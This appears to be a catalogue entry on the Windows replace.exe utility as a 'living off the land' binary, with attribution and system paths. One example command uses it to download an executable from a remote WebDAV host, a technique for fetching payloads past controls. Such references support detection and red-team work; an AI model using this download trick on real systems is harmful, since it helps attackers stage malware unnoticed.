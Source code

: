 ## Replace.exe

* Functions: Copy, Download

```
replace c:\source\file.cab c:\destination /A     
     
replace \\http://webdav.host.com \foo\bar.exe c:\outdir /A     

```

Acknowledgements:
* elceef - @elceef

Code sample:
* 

Resources:
* https://twitter.com/elceef/status/986334113941655553
* https://twitter.com/elceef/status/986842299861782529

Full path:
```
c:\windows\system32\replace.exe
c:\windows\sysWOW64\replace.exe
```

Notes:



 
